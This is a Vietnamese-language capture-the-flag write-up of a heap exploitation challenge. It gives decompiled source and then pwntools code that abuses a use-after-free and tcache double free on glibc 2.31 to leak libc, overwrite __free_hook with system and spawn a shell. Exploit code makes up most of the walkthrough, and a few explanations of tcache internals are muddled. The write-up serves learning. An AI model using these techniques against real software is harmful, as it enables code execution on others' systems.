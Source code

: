 # chall 1

## source

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char v3; // [rsp+Fh] [rbp-11h] BYREF
  int v4; // [rsp+10h] [rbp-10h] BYREF
  _DWORD size[3]; // [rsp+14h] [rbp-Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("Ebook v1.0 - Beta version\n");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        menu();
        __isoc99_scanf("%d", &v4);
        __isoc99_scanf("%c", &v3);
        if ( v4 != 1 )
          break;
        printf("Size: ");
        __isoc99_scanf("%u", size);
        __isoc99_scanf("%c", &v3);
        ptr = malloc(size[0]);
        printf("Content: ");
        read(0, ptr, size[0]);
        *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
      }
      if ( v4 == 2 )
        break;
      switch ( v4 )
      {
        case 3:
          if ( ptr )
          {
            free(ptr);
            puts("Done!");
          }
          else
          {
LABEL_15:
            puts("You didn't buy any book");
          }
          break;
        case 4:
          if ( !ptr )
            goto LABEL_15;
          printf("Content: %s\n", (const char *)ptr);
          break;
        case 5:
          exit(0);
        default:
          puts("Invalid choice!");
          break;
      }
    }
    if ( !ptr )
      goto LABEL_15;
    printf("Content: ");
    read(0, ptr, size[0]);
    *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
  }
}
```

## Ý tưởng

- Ở đây file 2.31 có safe linking để ngăn chặn DFB [xem rõ hơn cơ chế hoạt động của safe linking ở đây](https://github.com/wan-hyhty/trainning/blob/b%C3%A1o-c%C3%A1o/b%C3%A1o%20c%C3%A1o%20l%E1%BA%A7n%203/heap-exploitation.md#libc-231)
- Đầu tiên ta sẽ thay đổi fd và bk bằng UAF để có thể double free nhưng safe linking không nhận ra
- Tiếp theo ta leak địa chỉ libc và ow \_hook

## Thực thi

- Đầu tiên ta cần tạo một chunk với size tuỳ ý và free nó

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", str(0x20))
sla(b"> ", b"3")
```

- Ta kiểm tra chunk
  ![image](https://user-images.githubusercontent.com/111769169/234796684-99ab6f13-f936-4386-becb-f5d9317fd120.png)
- Đúng với lí thuyết, bk của chunk ta tạo sẽ là địa chỉ của chunk trước đó. Safe linking sẽ dựa vào bk để ngăn chặn DFB

- Đến đấy ta khai thác lỗi UAF ở option 2 để sửa bk chunk đã free và free chunk lần nữa

```python
sla(b"> ", b"2")
sa(b"Content: ", b"\0" * 0x20)
sla(b"> ", b"3")
```

![image](https://user-images.githubusercontent.com/111769169/234798303-7344d34b-0df0-4857-9264-0820d9ed108b.png)

- Tiếp đến ta leak libc
- Ở đây, khi ta double free thì fd bị loop như sau
  ![image](https://user-images.githubusercontent.com/111769169/234837508-bfcec32a-5fc6-47b3-aba1-ce5d7866a48a.png)
- Ta hoàn toàn có thể can thiệp vào vị trí của chunk bị loop kia bằng cáp thay đổi fd
- fd sẽ là địa chỉ của chunk sau nên nếu ta trỏ fd là địa chỉ của một got thì khi trỏ đến got nó sẽ lấy địa chỉ plt để leak libc
- Có thể do tcache là danh sách liên kết đơn, nghĩa là có fd và bk, và fd của chunk trước có thể là giá trị bk của chunk sau

```python
sla(b"> ", b"2")
sa(b"Content: ", p64(exe.sym["stderr"]))
```

![image](https://user-images.githubusercontent.com/111769169/234839401-fca0481e-befc-4b3a-97d7-2a152c75b276.png)

- Tcache hơi giống stack một tí nhưng khác nhau ở chỗ, stack là vào cuối- ra đầu, còn tcache là vào đầu - ra đầu (trong tcache, các chunk được đưa vào và lấy ra bằng cách sử dụng con trỏ forward)
- Vậy nghĩa là ta đang có 2 chunk, một chunk là đang trỏ ở heap, chunk còn lại đã bị thay đổi fd đang trỏ vào got của free mà ptr lại là địa chỉ của chunk nên ta phải gọi lại 2 lần thì ptr mới là địa chỉ của chunk 2(got của free)

- Tính libc base

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"abcde")

sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"\xc0")
sla(b"> ", b"4")
p.recvuntil(b"Content: ")

libc_leak = u64(p.recv(6) + b"\0\0")
libc.address = libc_leak - libc.sym['_IO_2_1_stderr_']
info(hex(libc_leak))
info(hex(libc.address))
```

- Tiếp tục double free và use after free để ghi /bin/sh vào \_\_free_hook

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", str(0x20))
sla(b"> ", b"3")

sla(b"> ", b"2")
sa(b"Content: ", b"\0" * 16)
sla(b"> ", b"3")

sla(b"> ", b"2")
sa(b"Content: ", p64(libc.sym['__free_hook']))
```

- Giống như trước đó nhưng ở đây hơi khác
- Khi ta malloc lần thứ 2 thì ptr đang trỏ chứa `__free_hook` đang trỏ đến chuỗi ta vừa nhập, qua option 2 ta sẽ ghi vào `__free_hook`

![image](https://user-images.githubusercontent.com/111769169/234880535-47928d4c-3add-4261-8d2f-a933a7f6b9d2.png)

```python
sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", str(0x20))

sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"aaa")

sla(b"> ", b"2")
sa(b"Content: ", p64(libc.sym['system']))
```

- `__free_hook` được thiết lập, thì hàm free() sẽ trước tiên kiểm tra xem **free_hook có khác NULL hay không. Nếu **free_hook khác NULL, thay vì thực hiện việc giải phóng chunk trên heap, hàm free() sẽ gọi hàm được chỉ định bởi \_\_free_hook để xử lý việc giải phóng chunk
- Khi này, ta free() (option 3) thì free() thay vì giải phóng mà thực hiện hàm `__free_hook` chỉ định

```python

sla(b"> ", b"1")
sla(b"Size: ", str(0x20))
sa(b"Content: ", b"/bin/sh\0")
sla(b"> ", b"3")
```
